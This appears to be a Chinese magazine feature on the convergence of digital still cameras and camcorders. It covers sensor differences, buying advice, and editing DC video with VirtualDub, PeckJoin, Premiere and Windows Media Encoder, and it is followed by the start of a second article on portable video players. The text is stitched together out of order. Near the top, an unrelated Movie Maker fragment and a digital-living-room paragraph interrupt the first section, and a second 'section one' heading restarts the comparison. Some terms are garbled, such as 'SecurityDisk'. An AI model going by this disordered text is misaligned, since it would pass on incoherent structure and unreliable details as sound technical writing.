作为两大数码产品之首，DC与DV正受到越来越多的用户喜爱，并已经融入到大众的生活中。但是不可否认的是，无论是DC还是DV，其高昂的价格都是阻碍进一步普及的绊脚石。为了增加产品的卖点，DC或者DV厂商开始尝试将两者的功能融合。这究竟是继承还是创新？用户能否从中获益？又该如何面对这些综合功能的产品？我们将在下文中与大家一起探讨。

### 一、技术分析：DC与DV的差别

早在几年以前，数码摄像机就大多设有静态照片拍摄功能，而许多数码相机也具备动态拍摄功能。但是数码摄像机所选用的光电转换组件CCD的面积通常要小于数码相机的CCD，因此使用数码摄像机拍摄的照片不太理想，很难达到数码相机（200万像素以上）拍摄的照片质量。相反，可拍摄动态影像的数码相机所拍摄的动态影像的质量也不如标准数码摄像机，因为采用这种方式拍摄的动态影像往往分辨率较低（320 × 240）。动态影像在播放时动作不连续（也称跳帧），要流畅播放至少需要24帧每秒图像，而数码相机在动态拍摄模式下，只能达到20fps以下。如果采用640 × 480的分辨率，只能达到10fps左右，图像播放质量可想而知。



图13 增加各种视频特效

此外，大家也可以将预制的视频特效拖放到时间线的“视频”轨上，或拖放到情节提要的单元格中。总之，大家可以将预制“视频效果”当成是视频中的一个小片段，可以使用鼠标拖曳的方式插在任何你想要的位置。事实上，DV后期视频处理不外乎添加转场以及视频特效，在掌握了基本操作方法之后，大家所要做的仅仅是合理地组合。不过，转场与视频特效不能滥用，过多使用反而会有很累赘的感觉。

### 3. 高画质视频转换与保存

DVD-Video 采用MPEG2编码技术，不过MPEG2编码效率不高，从而导致数据量过大，而且用户需要为此配备价格不菲的DVD刻录机。对于只需要在电脑上观看高品质视频的用户而言，采用WMV9编码技术保存DV视频将是最佳的选择，此时一张CD刻录盘就能存下长达1小时左右的高质量视频，而且画质丝毫不亚于DVD-Video。完成所有的编辑操作之后，回到Movie Maker 2.0主界面，点击文件菜单下的“保存电影文件”。Movie Maker 2.0提供了多种输出方案，其中最常用的莫过于“写入CD”、“保存到我的电脑”以及“回录到DV摄像机”。使用“保存到我的电脑”时，Movie Maker 2.0会提示选择编码速率。需要注意的是，编码速率直接决定清晰度与文件体积。过高的编码速率固然能够带来最佳的清晰度，但是文件体积也因此变大，给存储带来不便。一般而言，选择“高视频质量（大）”，Movie Maker 2.0采用“变量位速率”进行编码，类似于Real公司的RMVB技术，可以根据视频信息进行更具针对性的压缩，而且分辨率达到640 × 480（见图14）。



图14 使用高级视频编码技术保存DV画面

数字家庭无疑是现在的热门词汇，但很多用户总认为这与现实生活还有一段距离。其实，随着技术的普及和产品的量产，如今打造一个数字客厅的成本并不高。凭借MiniPC准系统与高清电视的联合，还有无线网络的使用，整个数字客厅可以变得触手可及，而丰富的软件应用更是充分满足了休闲娱乐需求。

### 一、相同的架构与不同的CCD

令人感到欣慰的是，DC与DV正在逐渐融合。在DV静态拍摄水准蒸蒸日上之时，不少DC的动态拍摄能力也得到明显改善，基本解决了上述瓶颈，从而得以展现出令人满意的动态画面。与此同时，DC也逐步提升动态拍摄能力。事实上，从产品的构成来看，DC与DV的架构十分接近，彼此之间的功能融合自然有了基础。

镜头、感光器、图像处理器、存储介质，在这些方面DC与DV都存在共性。真正重要的是，DV所采用的CCD感光器与DC所采用的CCD感光器存在一定区别。首先，视频CCD与静态摄影CCD的最大差别在于像素形状不同，前者是长方形（见图1）。如果截取视频CCD的画面观察，





在水平和垂直方向不会感到太明显的图像质量差异，但对角线方向的线条和轮廓就会出现比正方形像素CCD更加明显的锯齿现象，影响画面的观感（见图2）。

### 2. 扫描方式差别与色彩还原差别

更为重要的是，视频CCD与静态摄影CCD的数据读取方式也不同。常见的视频CCD采用隔行读取方式，将画面水平分成间隔的像素行，通过电子快门控制，每次轮换取奇数行和偶数行的信号。对于视频而言，隔行读取具有很多优势，因为每次读取的信号称为场信号，两场的信号组成一帧图像，两次信号读取的时间差，可以补偿视频图像每秒钟25帧频率可能带来的跳跃感。但对于捕捉静态图像而言，隔行扫描就会带来一些问题，如果画面中有运动物体，两场信号获取的时间差就会导致明显的画面差异，组成的图像在清晰度方面表现较差。

信号处理的目的不同，而视频CCD与静态摄影CCD常用的色彩模式也有所不同。为了比较方便地转换成视频亮/色信号，尽量减少数据损失，视频CCD组件表面附加的色彩滤镜阵列（CFA，Color Filter Array）为补色类型，即红、青、黄、绿四色滤镜阵列遮蔽在CCD光敏单元表面，根据读取到的信号组成具有色彩的图像。但对于数码相机通常面对的sRGB标准而言，把来自补色系的图像信号转换到原色系（RGB色系）会带来色彩的偏差，因此，大部分静态摄影CCD都采用RGB原色滤镜阵列。

除了CCD组件设计的不同，数码摄像机固定的视频分辨率使得50万像素左右的图像传感器就可以满足视频图像清晰度的要求，这同时也导致了数码摄像机镜头设计的特色——在保证高倍率光学变焦的前提下兼顾清晰度。而对于像素可以达到四五百万的数码相机而言，这些镜头的分辨率就不够了，难以发挥高像素CCD的性能。

### 二、稳步发展：DC动态拍摄效果

静态的数码照片有其独特的美感，而倘若希望记录下旅游过程的全貌，无疑动态摄影更具表现力。很多DC用户都渴望能够体验动态拍摄的乐趣，而厂商也在这方面逐步努力。

### 1. 动态像素限制

并不是任何一种DC都适合动态拍摄，选择合适的产品将会给今后的应用带来很多方便之处。一般而言，早期200万及其以下像素的DC并不适合动态拍摄，即便产品具有该功能，其动态画质也只能满足普通记录需求，无法作为私人珍藏。

或许很多读者会纳闷，主流DV的像素也只有区区百万，为何200万像素的DC也会在动态拍摄时力不从心。其实，拍摄动态画面时讲究的是动态像素，而不是总像素。如果动态像素能够达到35万，基本上就能或者近似VCD的画质，而动态像素达到60万之后，画质直逼DVD。对于大多数200万以下低像素DC而言，动态像素可能只有30万不到。

从视觉效果来看，困扰DC动态拍摄效果的最大原因并不仅仅是动态像素，帧速率似乎更为重要。目前很多DC都只具备15fps的动态拍摄能力，画面很不流畅，令人感觉停顿太过明显。为此，建议大家从动态像素以及帧速率这两个方面考虑，如果DC在动态拍摄时能够做到640×480分辨率，而且帧速率达到30fps，此时的效果将非常出色。

### 2. 存储卡速度瓶颈

尽管动态拍摄时最多只有640×480的分辨率，但是视频的数据量远远大于静态图像。由于DC并没有磁介质进行存储，因此闪存卡的速度相当关键。如果闪存卡在速度上无法跟上，根本不能满足640×480@30fps的写入速度，这也是很多DC规定动态拍摄只能持续一段时间，不能无限制拍摄的最大原因。通过加载缓存或许能够在很大程度上进行弥补，但是其效果并不明显，因为关键因素还在于闪存卡本身。

纵观目前的各类闪存卡，高倍速CF、Microdrive微型硬盘、SD/MMC、XD-Picture以及MemoryStick都有很不错的速度表现，而老迈的低倍速CF以及SM显得力不从心，很多还在使用该类存储介质的DC只能一次性拍摄一分钟动态画面（见图3）。



### 三、率先达标：DV静态拍摄效果

DV的价格远高于DC，按理说DC的价格并不会成为DV用户的顾虑，但是很多用户还是很难接受“为拍摄而旅游”的这种概念。一手捧着DV，另一手拿着DC，这并不是一种舒适的体验。为此，具备静态照片拍摄功能的DV开始普及，而且其水准正在飞速提高。总体而言，目前高端DV已经具备与一款低端DC相当的静态拍摄能力，这令很多消费者有了“合二为一”的想法。

### 1. 200万像素实现突破

对于百万级别以及像素更低的DV而言，造成静态拍摄效果不佳的原因不仅仅是视频CCD的特殊性，本身像素级别不够也是重要的原因。以数码冲印为例，实现7英寸以上的输出幅面，至少需要达到1600 × 1200分辨率，而这是很多百万像素级别的CCD所无法做到的。令人欣慰的是，在动态像素提升的同时，多款新发布DV做到了200万静态像素，令数码静态照片的清晰度有了较大幅度的提升。

略微有些遗憾的是，很多3CCD机种在静态拍摄时的表现并不如想象中那样出色。3CCD拍摄系统分别能将镜头捕捉的光信息分为红色、绿色和蓝色，3CCD的每一片CCD掌管三原色红、绿、蓝的一种，这样会比单CCD的颜色效果还原得更好，得到更自然的颜色和更宽的视觉对比度。3CCD与单CCD并不会在影像清晰度上有很大的差别，其差距主要体现在对色彩的还原能力上。由于DV中的3CCD针对动态视频进行优化，因此静态拍摄时的整体效果反而不如相同像素级别的单CCD。

### 2. 数码存储卡解决危机

DV摄像带采用了数字存储格式，但是其清晰度远不能满足高分辨率照片存储的需求。毫不客气地说，那些连闪存存储功能都没有的DV根本谈不上静态拍摄功能，因为无论CCD的像素有多高，其生成的高分辨率画面都会因为DV摄像带存储方式而大幅度降低画质。所幸目前各大DV厂商纷纷看到这一问题，中高端产品中已经普遍采用SD/MMC或者Memory Stick Pro作为静态照片的存储方式（见图4）。



## 四、寻找数码影像多面手

对于一款具备出色动态拍摄效果的DC而言，实现真正意义上的高分辨率、以及高画质的压缩技术十分重要。客观而言，目前多款以动态拍摄著称的DC，并不存在像素插值的问题，但少数以320 × 240分辨率动态拍摄的中低端DC，往往无法达到相应的分辨率，只是通过软件插值来实现，并未在实质上提高画质。举个最简单的例子，320 × 240分辨率几乎等同于VCD，而部分中低端DC的拍摄效果远不及此。尽管其中存在隔行显示以及其它因素，但是差距不应该那么明显。如果体验一下少数能够达到640 × 480分辨率动态拍摄的DC，大家对此会有更为感性的认识——此时总体画质已经超越了VCD。

压缩技术也是很容易被大家忽视的细节，目前大多数DC采用的动态压缩编码为MotionJPG、MPEG4、MPEG1以及Quicktime。相对而言，MotionJPG与MPEG4的画质较为出色，而MPEG1的表现并不能令人满意，往往因为编码效率过低（其编码速率远小于VCD中的MPEG1）而令画质受损严重。至于Quicktime，其表现只能算是中规中矩。如果渴望获得更长时间以及更好的画质，强烈推荐大家选择采用MPEG4编码的产品。

除了以上两个要注意的细节以外，大家还有必要关注DC是否能够在动态拍摄时，顺利运用光学变焦以及是否存在拍摄时间限制。少数DC在动态拍摄时无法使用变焦镜头，部分还因为处理芯片的速度不够而无法一次性拍摄长时间动态视频，录制时间被限制在30秒以内，这类产品在实际应用中都难以令人满意，即便具备了高分辨率动态拍摄也无济于事。最后要提醒大家的便是帧速率，个人感觉640 × 480@15fps时的整体效果还不如320 × 240@30fps，因为视频流畅度实在太重要了。在15fps下，我们能够感觉到十分明显的停顿，只有在30fps下才能消除这种感觉。

相对而言，选择具备静态拍摄功能的DV要容易得多，因为目前生产DV的厂商大多同时生产DC，技术上不存在任何障碍，而且良好的品牌形象也在客观上杜绝了粗制滥造的产品。以往我们总是强调DV应该具备数码存储卡功能，才能实现高品质的静态拍摄，这是最低的要求。如果渴望得到理想的静态拍摄效果，建议考虑拥有大光圈以及独立闪光灯的产品，这对于提高画质大有裨益。

### 五、DC摄像：三分像DV，七分靠自己

由于DC和DV还是存在不少差异，因此大家在拍摄时必须注意各种细节问题，这样才能让捕捉到的精彩画面更加出色。不可否认，这对拍摄者的要求相当高，我们必须克服各种不利条件，并且合理地运用辅助工具。

- 1. 克服DC动态拍摄的先天不足
    - (1) 更宽更远的取景：焦距与视角

熟悉数码照片拍摄的读者都知道焦距与广角的重要性，对比主流DC与DV的技术指标，我们会发现大多数DC在光学变焦方面只能做到3X，与DV至少达到10X的指标有着不小的差距。从实际使用情况来看，焦距上的差距并不是唯一问题，更为棘手的是DC那并不宽广的视角。

高倍光学变焦下的长焦距能够方便拍摄远处的物体，减少拍摄者来回走动的次数，而超广视角则有助于容纳下更多的景物。毫无疑问，通过拍摄者不断的移动位置可以弥补这些缺陷，但是出于便捷性以及户外复杂地理环境的考虑，建议大家为DC选择一款广角镜，你一定会从中获益匪浅（见图5）。至于长焦镜，暂时不推荐使用，因为移动拍摄时很容易造成画面抖动，几乎没有任何实用价值。



- (2)无奈的磨练：端稳DC

在静态画面拍摄中，轻微的抖动都可能使你的“大作”宣告失败，而动态拍摄同样如此。由于大多数DC都缺乏DV所特有的防颤抖功能，因此我们必须格外小心。简单而言，端稳DC是最佳的解决方案，最好是用两只手来把持DC，这绝对比单手要稳，或利用身边可支撑的物品或准备三脚架，无论如何就是尽量减轻画面的晃动，最忌讳边走边拍的方式，这也是很多初学者易犯的毛病，因为边走边拍的方式是针对特殊情况运用的，而且难度极高。

- (3)稳字当头：取景范围的移动

相信各位常常遇到一个画面无法将景物全景拍摄进来，这时候大家不得不将DC镜头由右到左或是左到右的扫描。正如我们先前所说，DC毕竟不是DV，如果在移动取景范围时稍有不注意，很可能让画面变得极为不连贯，这甚至是后期处理也无法弥补的。一般DV都会对快速场景切换作充分考虑，迅速调整各种参数并且弥补画面的跳跃感。而缺乏这些功能的DC必须依靠我们人为操作，首先要做到的依旧是一个“稳”字，切记让镜头猛烈移动。此外，尽可能地保证匀速移动，这样会使得画面看起来更为流畅。当需要转动的角度很大时，可以考虑分步转动，给DC充分的时间来适应焦距、光线等参数的变化。

- (4)精打细算：节省存储空间

用DC拍摄动态画面时，闪存卡的容量总是显得捉襟见肘。配备多块大容量闪存卡自然是一个好方法，但是如果能够在拍摄时节约一下存储空间，肯定能取得更好的效果。为此，建议大家先进行准确的拍摄目标定位，将各种参数都设定好，然后才按下快门，而不要一边拍摄、一边盲目地寻找捕捉对象。

- 2.突破传统的后期处理

用DC完成动态拍摄之后，我们还需要经过一系列的后期处理才能保存珍贵的视频片断。由于DC动态拍摄的特殊性，后期处理也变得更加困难，但如果处理得当，同样能够化腐朽为神奇。

    - (1)更为方便的数据传输：使用闪存读卡器

很多DC所拍摄的视频需要用其自带的应用软件才能下载到电脑中，而且传输过程十分不便。假设使用闪存读卡器，一切将变得更加简单。需要注意的是，不同规格的闪存对应不同的读卡器，当然，少数读卡器能够通用于所有规格的闪存卡。由于读卡器在Windows下就好比是一个驱动器，因此从DC下载视频变得十分容易。与DV相比，这回DC终于在便捷性上占据了优势，免去了视频采集的烦恼。

    - (2)打通后期处理屏障：转换标准AVI

为了有效利用闪存卡空间，几乎所有的DC都采用特殊的视频格式进行保存，但是这样并不利于视频处理，无法直接添加各种特效。在此，我们推荐大家使用VirtualDub进行转换，它能够将各种特殊压缩格式的AVI文件直接转换成未压缩的普通AVI视频。首先用VirtualDub打开需要转换的视频，选择Video→Compression菜单，将编码方式选择为“Uncompressed RGB”（见图6）。



同样，再进入Audio→Compression菜单，把音频编码选择为“Uncompressed PCM”。完成以上设定之后，在File菜单下选择“Save As AVI”即可进行转换，从而得到标准的AVI格式，能够完全兼容各种视频编辑软件。

    - (3)化零为整：合并标准AVI视频

对于有拍摄时间限制的DC，采用后期文件合并是不错的解决方法，建议大家在转换成标准AVI之后再执行合并操作。支持AVI合并的软件有很多，其中PeckJoin是很值得推荐的一款共享软件。软件的左面为文件列表区，只要选择正确的磁盘和目录，AVI文件都会列在右下方的列表框中。

用鼠标在该列表框中选择第一个AVI文件，并单击旁边的键将其列入右下方的合并区。按此方法，将其他需合并的AVI文件一列入合并区。如果在合并区出现次序错误，你可以选择需调整次序的文件，调整位置后按一下“Join!”键，软件会弹出“Save Joined File AS”对话框，在该对话框确定合并文件的文件名及保存目录后，选择“OK”即可完成合并工作（见图7）。



## （4）有机连接：利用Adobe Premiere制作转场

无论我们的闪存卡容量有多大，都不不可避免地会有分段拍摄，因为即便是512MB的超大容量也只能拍摄15～30分钟。为了让整段视频显得更加连贯，我们可以使用转场效果来过渡，而完成这一任务的便是大名鼎鼎的视频编辑软件——Adobe Premiere。

转场特效是我们视频编辑中运用最多的技术，一段影片通常要有几段素材组成。一段素材结束，另一端素材紧接着开始，影片中所谓的镜头切换转场，指的就是这一过程。用户可以直接把两段视频素材相邻放置于时间线窗中，还可以利用Premiere中提供的各种切换方式，生成各种花式转场衔接两段素材（见图8）。



这些转场方式可以丰富影片的表现力，使画面更为活泼好看。在调整好“VideolA”和“VideolB”上的素材位置后，将附加转场方式从切换窗中拖动至时间线窗的切换轨道上，切换方式会根据两段素材的交叉时间，自动调整切换的持续时间。在切换窗中或者时间线窗的切换轨道中，双击附加渐变切换，系统会弹出一个对话框，我们可以通过这一对话框来设定附加渐变切换的属性。

## （5）精彩的注解：在Adobe Premiere中添加字幕

由于在拍摄过程中为了节省空间，影片常常会显得情节不连贯、比较突兀，此时利用字幕是很好的弥补方法，而且还能帮助我们记录这些视频片断的相关信息。添加字幕也是视频编辑中常见的应用，在Premiere菜单栏中选择File→New→Title选项，打开字幕编辑器并同时新建一个字幕素材文件（见图9）。



单击该选项后，字幕编辑器出现在屏幕上。字幕编辑器左侧有一个工具栏，其中包括各种常用工具以及专门用来处理颜色、渐变、阴影的加工区域。单击工具栏中的“T”字按钮后，就可以在字幕编辑器右部的编辑区中书写所需的字幕文字了。将鼠标指针移到编辑区中，任选一处单击鼠标左键，编辑区中会出现一个虚线框，这个虚线框标定了当前编辑文字的区域范围。

如果有必要的活，我们还可以通过Premiere内置的滤镜来实现多种视频特效。通过Premiere的强大功能，完全可以将视频片断变得更加丰富多彩，弥补DC在动态拍摄功能方面的不足。

### （6）个性化输出：利用各种编码技术

传统的VCD制作大家或许已经厌倦，而且其画质也令人难以满意。其实，如果不强求兼容VCD播放机，我们完全可以将编辑后的视频片断转制为DivX、WMV9、RMVB等格式。这里，我们以微软最新的WMV9编码技术为例向大家介绍，这种视频格式在相同体积下画质远胜于VCD，而且兼容性相当出色。

在Windows Media Encoder9向导的帮助下，WMV9的转换十分简单。在“新建会话”中选择“转换文件”，然后依次选择源文件以及目标文件路径。最关键的一步在于选择视频编码参数，建议大家采用“1Mbps VBR”，此时编码速率可以动态变化，压缩时更有针对性，可以将画质损失降低到最小限度（见图10）。点击“完成”按钮之后，Windows Media Encoder9立即开始转换WMV9视频，但是其转换速度较慢，大家需要多一些耐心。



从绝对成本来看，DV远高于DC，利润也相对较高，因此暂时很难让DC与DV两栖厂商迅速推出大量融合两项功能的产品，毕竟这样会透支市场潜力。另一方面，目前DV技术仅仅掌握在索尼、松下、佳能、JVC、三星等厂商手中，也在客观上阻碍了融合趋势。

从长远来看，DC与DV融合将是必然的，首先打破这一屏障的将会是佳能与索尼这类在技术研发、市场规划、产量生产等方面拥有巨大优势的大型厂商。此外，诸如三星、三洋、JVC等拥有两栖作战实力的厂商也不容忽视。

最后要提醒广大消费者的是，在关注功能融合的同时，也不可忽视产品本身的性能表现。如果一款DV无法做到优质的动态视频拍摄，纵然实现凌驾于低端400万像素DC之上的静态拍摄，价值又有多大呢？在追求多功能整合的同时，大家切莫本末倒置！

# 移动影音

文 / 阿亮

上世纪80年代，TAPE磁带随身听的出现激活了流行音乐，进而形成令人无法估量的现代音乐产业。CD、MD以及MP3等技术的出现，在很大程度上起到推波助澜的作用。然而，由于存储方式的限制，视频移动化相对来说更难实现。对比影视产业与音乐产业，两股原本应该不相上下的势力因便携播放的存在产生了巨大差异：音乐产业的推广有投入小、受益面广的特点，普及起来较为轻松，而影视产业则被禁锢在电影院或者家庭AV设备。不过，这一局面在近两年有了明显改观。从移动DVD开始，再到PDA和MP4，乃至智能手机，如今实现移动视频应用已经变得轻而易举。

各种数码设备以及外设已经成为时尚用户的必备之物，视觉感观的冲击远远高于听觉感观，这是毋庸置疑的事实。但是，全球影视产业每年的价值约为6000亿美元，而流行音乐产业的价值是其8倍左右，其中因为便携式产品而带来的流行音乐产业就有约40%以上的贡献。毫无疑问，影视产业渴望将视频实现便携化，这将带来令人难以想象的商业契机。同时，移动影音已经成为一种潮流，而玩家们也已经开始了这场总动员。

## 一、精彩移动世界：浅析移动影音应用潮流

从商业角度分析，不难看到便携式视频播放设备的巨大潜力，而从其实用价值来看，个人用户的需求度也是真实而迫切的，这也是产品乃至产业发展的基石。为此，我们采访了不同层面的普通用户，让他们简单谈谈对便携式视频播放设备的认识与期待程度。

-   * 青年白领： 如果这一切成为现实，那真是太好了，我可以在漫长的飞行旅途中看自己最喜爱的电影，业余生活将会因此而变得丰富多彩。

-   * 中年教师： 尽管我已经不再追求时尚，年轻人的流行音乐让我无法接受，但是便携的电影应该有更多的选择空间，而旅游中的DC和DV应用更是引人入胜。

-   * IT从业人士： 这并没有什么好惊奇的，存储技术以及视频解码技术的成熟已经为便携视频打下了基础，我们也已经准备好开发这一欣欣向荣的市场。

-   * 业界观察家： 如果说音乐随身听让人消磨时间，那么便携式视频则完全能够令人沉醉其中。仅从这一点看，便携多媒体播放器市场将拥有无法估量的潜力。

-   * 网友代表： 这或许是我近期最期待的影像设备，独享式的收看方式更加适合现代人的生活方式，全能的DV更是我的渴望。

-   * 电影发烧友： 我是一个忠实的大片迷，国外的、国内的，不仅家里看，上班还“偷”着看，特别是最近频繁出差，还使我产生了“最好能在火车上、飞机上看片”的念头！ 看着我如此“走火入魔”，很多朋友戏称我这个“业余的专业影迷”得买一个移动MP4……

如同很多新兴领域一样，处于发展初期的便携多媒体播放器市场并非风平浪静。厂商倚仗各自在原有领域的优势，通过技术整合与拓展演变，分别推出不同的解决方案。时至今日，我们已经能够在市场上看到超轻薄笔记本（或UMPC）、便携媒体中心（PMC）、个人数字助理（PDA）以及移动电话（Mobile Phone）这四大主流。

### 1. 突破应用屏障：存储技术显威力

高画质的视频必定需要较大的数据存储量，自然对存储设备有较高要求。目前，磁盘存储技术、光存储技术以及闪存存储技术都取得了较大突破，与硬盘容量技术的发展相比，光存储技术的改进意义更加深远。随着DVD刻录机浮出水面，带给用户的是全新视觉冲击。高画质的视频可以刻录成微型DVD影碟、移动DVD进行欣赏。此外，超薄型光驱也变得越来越普及，使得便携式DVD以及笔记本能够更加轻薄，让用户真正做到随地随看。

对于PDA掌上电脑、手机等特别注重便携性的设备，闪存技术几乎是最佳解决途径。现在CompactFlash、MemoryStick和SecurityDisk都在容量方面取得重大突破，4GB的存储容量足够存放六部DVD画质的高清晰度影片！闪存技术不仅在容量取得突破，其速度表现也较以往大为改观。目前80X的CF卡足以胜任各种高编码速率的解码需求，再也不会出现因为存储设备速度障碍而导致视频跳帧的尴尬。闪存技术只是一个发展方向，还有越来越多的便携视频设备采用微型硬盘，先进的架构决定其拥有出色的存储容量以及速度表现，这些都为最终的便携视频应用打下坚实基础。

### 2. 编码技术奠定应用基础

应当看到，DVD（Digital Versatile Disc，数字通用光盘）普及之路并不平坦。经过长达几年的发展，DVD影碟机才得以在市场上站稳脚跟，DVDROM才能进入笔记本。DVD标准于1995年8月制定以来，经过多年的市场培育，现在已经有了面向电脑和电影等不同群体的诸多产品，但有关标准（如可录功能规格）持续不断的争斗和矛盾，在一定程度上延缓了 DVD 的成长。任何人在看过 DVD Video 或者听过 DVD Audio 之后，明晰、生动的画质和逼真、令人震撼的音质将让你难忘这个全新的数字视听世界。

集万千宠爱于一身的 DVD 并非十全十美，由于标准推出时间较早，因此对现有硬件性能的利用率并不是最高。这直接造成 DVD 编码效率不高，从而导致数据量过大，很大程度上制约其普及，甚至偏向家电化的发展模式。为了改变这一局面，被称作 DVD 杀手的 MPEG4 技术应运而生。

MPEG4 刚刚推出的时候惊动了整个互联网，在保证编码速率的情况下，其视频效果与 DVD 画质不相上下，但存储容量却大幅度缩减。通常，DVD 数据流的码率高达 5000～10000Kbps，而 MPEG4 中可以用低得多的码率达到接近 DVD 的视频效果。根据实际经验，MPEG4 视频流的码率在 1200～1500Kbps 时，可以做到兼顾较好的视频效果和较理想的压缩比这两方面的要素，当然，最为理想的画面效果应该在 2000Kbps 左右。更为重要的是，MPEG4 技术很大程度上简化了繁琐的版权保护限制，令视频存储方式更加接近于计算机模式，而非家电产品。因此，大量基于 MPEG4 技术的设备相继推出，让 PDA、便携式视频播放设备得以普及。

## 二、从笨重到轻盈：移动影音方案新概念

在我们的生活中，各种多媒体设备已经成为必不可少的伴侣。然而，当我们不惜代价地追求功能时，产品的重量与便携性往往被忽视。于是乎，不少用户在一片埋怨声中忍受“力量与耐力训练”。这种情况下，何不拓宽视野、放眼于更为重要的人性化设计？或许，以下两类人群代表将带给你巨大的启示。

### 1. 笔记本：便携比性能更重要

刚刚从大学毕业的羽凡与所有年轻人一样充分朝气，踏入销售行业后，出差自然是家常便饭。羽凡学生时代就曾渴望拥有一台功能强大的笔记本，工作后终于得偿所愿。他购买笔记本的目的并不是时尚的移动办公，也不是学习目的，仅仅是为了娱乐而已。然而，对于笔记本尚无太多使用经验的羽凡，并没有在一开始便认识其真正内涵，也没有与自己的实际使用情况相结合。尽管笔记本的主机性能相当了得，整体效果可以媲美于台式机，但是 3.5 公斤左右的重量却让他不堪重负。正如羽凡自己所说：整天带着的笔记本已经成为一个负担，3.5 公斤的重量令这个年轻力壮的小伙子也望而却步。渐渐地，羽凡甚至抛弃了心爱的笔记本，因为轻松的旅程远比高性能笔记本更为重要。对此，羽凡的切身体会可谓最为真切，随身携带 2 公斤的笔记本相对来说较为现实。

### 2. 数码影像：便携才是硬道理

酷爱数码影像的靖宇很早便有了 DC 和 DV 武装，第一款 DC 只有 400 万像素，而 DV 也是属于第一代 MiniDV 标准的掌中宝。经过一段时间之后，靖宇对数码设备的性能提出了更高要求，此时自然选择升级最新的高端产品。然而，或许是太过追求高性能，专业级产品成为靖宇的首选。体积庞大的高倍光学变焦 DC 取代了原先小巧的 400 万像素 DC，DVCAM 标准的庞然大物更是让 MiniDV 掌中宝相形见绌。最初，高性能产品着实让靖宇品味到了最新技术的魅力，但新鲜过后，靖宇发现自己仿佛失去了什么。每当外出旅游时，DVCAM 开始束之高阁，如此体积巨大的产品并不适合随身携带。久而久之，DVCAM 成为家中的固定式家电。尽管原先的 MiniDV 掌中宝在像素方面逊色很大，但是靖宇依旧让其“位复原职”。同样，专业感极强的高倍光学变焦 DC 也表现出了便携性方面的劣势。对于数码影像产品而言，便携性与性能同样重要，忽视任何一方面都会给实际应用带来不便，特别是应用环境多变的时尚一族，这点应该引起足够的重视。当然，看重便携性并不意味着完全忽视产品本身的品质，两者兼而有之的综合考虑，才是正确的解决之道。

### 3. 突破重量极限：高速发展的现代科技

“科技以人为本”，这句看似简单的陈词滥调的确蕴涵着真理。对于厂商而言，在便携性方面的突破尤为重要，其意义绝不亚于核心技术的改进。笔记本电脑在便携性方面的突破，往往得益于 CPU 厂商的设计能力，而数码产品的便携性诉求，也要求高集成度与低发热量的芯片技术。另一方面，材料技术也与产品的便携性休戚相关。轻若无物的钛合金以及铝镁合金堪称是塑造轻薄型产品的关键。不过，由于成本一直难以取得突破，因此其普及速度令人难以满意。事实上，“轻薄”在很多情况下往往需要以高成本为代价。为了尽可能减小产品体积、降低重量，厂商往往需要动用大量研发资源，使用更为精细的工程设计与制作工艺。也正是基于这一因素，轻薄型产品多数在价格上令人望而却步。不过，对于时尚用户而言，追求便携与追求高性能是同一种诉求，甚至是更高品味的产品使用理念。

## 三、感受视觉震撼 UMPC微型笔记本与移动DVD

如果你渴望在户外感受震撼的视觉效果，那么拥有大屏幕 LCD 液晶屏的微型笔记本与移动 DVD 将是很好的选择。研究表明，UMPC微型笔记本与移动DVD的消费群体，主要以年轻一族、时尚青年、白领人士为主。其中有车一族或以车代步族，可供车内乘客随时欣赏电影、音乐；出差或旅游群体，可随身携带以解旅途乏味和寂寞；时尚青年，可满足其追求最新潮流、个性化音乐的需求；学生、白领人士、商务人士作为新潮流的追随者或对生活质量有较高需求者，亦是微型笔记本与移动DVD的潜在和正在增长的消费人群。

微型笔记本的雏形便是大家所熟知的移动计算机，拥有完整的CPU－芯片组－显卡－光驱等基本架构。在所有便携多媒体播放器解决方案中，微型笔记本拥有最为强大的性能，目前能够胜任任何视频解码的需求（见图1）。

### 1. 对“砖头”本本说不

很多初次购买笔记本的用户都会一味求大求全，高主频的CPU以及超大屏幕的LCD总是对他们有着巨大诱惑力。我们要提醒大家的是，无论是笔记本还是移动DVD，其本身的体积应当作为首要衡量标准。按照一般人的承受能力，大约3Kg的设备会十分明显地让人感觉负担，此时根本谈不上欣赏，而是让所谓的移动视频变成了艰难任务。以目前的移动笔记本技术，几乎所有的主流处理器都能胜任各种视频解码需求，而采用超低电压版CPU以及集成显卡的产品应当成为首选。尽管他们在运行大型软件时总是捉襟见肘，但是应对各种多媒体任务还是游刃有余，而且其低功耗特征对于延长工作时间大有裨益。

### 2. LCD显示屏：内藏玄机！

对于移动DVD，切记不要一味追求大屏幕，同时，几乎任何产品的解码效果都相差不大，并不存在明显的差异。在这种情况下，LCD显示屏的真实效果更加值得关注。在播放DVD画质视频时，笔记本或者移动DVD的液晶显示屏响应速度能否达到要求十分重要。一般而言，电影的帧速率固定在29FPS左右，需要液晶显示屏的响应速度在25ms以下才能完全满足要求。

略微让人觉得遗憾的是，如今笔记本与移动DVD并不像台式液晶显示器那样强调这一技术指标，在选购时留心一下何种液晶面板以及实际响应速度表现还是很有必要的。此外，液晶显示屏的对比度、亮度、可视角度等指标同样也不能忽视。

如果想获得更加出色的视觉效果，那么选择16:9的宽屏笔记本将会令人有意外的惊喜。由于显示屏幕的长宽比例一般为16:9、16:10或15:10，因此在播放电影时自然能够获得更为宽广的视觉效果（见图2）。很多用户都感觉12.1英寸屏幕在采用16:9比例播放宽银幕影碟时，拥有等同于14.1英寸LCD的效果，而且便携性往往更为出色，拥有较高的综合性价比。

### 3. 移动DVD如何选择？

移动DVD开创了个人移动AV的新时代，属影碟机领域的尖端产品，具有高科技、个性化、时尚化、携带方便的独特魅力。由于移动DVD的科技含量高，开发和生产难度较大，产品价格居高不下，因此市场启动较为缓慢，直到目前才逐渐开始普及。普通DVD是固定放置在家中，一般不会出现碰撞、震动等现象，但是移动DVD是要随身携带，这就难免会产生震动。如果抗震性能不好，画面就会时断时续，且极易损伤机器。移动DVD除了拥有外接电源之外，还必须拥有支持户外播放的充电电池。此外，移动DVD对液晶显示屏的要求也比较高，必须具有较小的外观和极高的解像度和清晰度。

目前国内移动DVD市场，索尼、松下、夏普、先锋等日系品牌占据半壁江山，国内品牌中有爱国者、新科、长虹、万利达，价格上国产品牌要低于国外品牌产品。但是，国产移动DVD与国外品牌的总体品质其实不相上下，市场上最为畅销的是7英寸显示屏的国产产品，巨大的价格优势使这些1500元左右的产品很快受到消费者的追捧。

